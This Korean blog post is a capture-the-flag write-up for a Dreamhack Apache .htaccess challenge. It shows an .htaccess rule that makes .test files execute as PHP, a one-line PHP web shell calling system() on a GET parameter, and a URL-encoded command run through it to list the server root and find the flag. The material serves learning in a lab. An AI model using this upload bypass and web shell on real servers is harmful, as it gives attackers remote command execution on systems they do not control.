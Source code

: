 ```yaml
---
layout: post
title: "[Dreamhack] Apache htaccess 문제풀이"
date: 2023-12-10
categories: "web-hacking"
---
```

Apache htaccess 문제를 풀어보겠습니다!
일단 문제에서 어떻게 풀어야하는지 알려주고 있습니다. Apache 설정 파일인 `.htaccess`를 통해서 풀어야하는 문제입니다.  

```htaccess
AddType application/x-httpd-php .test
```
위 코드를 써서 업로드합니다. 업로드가 성공되면 위와 같이 성공적으로 업로드가 되었다는 결과를 볼 수 있습니다.  
`.test` 파일을 php로 동작할 수 있도록 해주는 명령어입니다.  

![00](/hacking/assets/images/dreamhack/apache-htaccess/00.png)

위와 같이 성공하였다면! 이제 본격적으로 `.php`파일을 업로드하여, 플래그를 획득해 보겠습니다.

```php
// webshell.test
<?php
	system($_GET['cmd']);
?>
```

위와 같이 `webshell.test` 파일을 작성하여, 업로드하면 파라미터를 통해서 서버 내부의 명령어를 사용할 수 있습니다.

![01](/hacking/assets/images/dreamhack/apache-htaccess/01.png)

정상적으로 파라미터를 통해서 명령어를 확인하여, `cd / && ls -al`를 실행시켜 보겠습니다.  
일단 URL 인코딩을 통해서 파라미터에서 명령어가 동작할 수 있도록 해야합니다.  
`webshell.test?cmd=cd+%2f+%26%26+ls+-al`이와 같이 작성하면 아래와 같이 명령어가 잘 동작합니다.

![02](/hacking/assets/images/dreamhack/apache-htaccess/02.png)

![03](/hacking/assets/images/dreamhack/apache-htaccess/03.png)

위를 통해서 플래그를 확인할 수 있습니다. 이제 플래그를 확인해 보겠습니다.

![04](/hacking/assets/images/dreamhack/apache-htaccess/04.png)

이렇게 플래그를 획득할 수 있습니다 :)
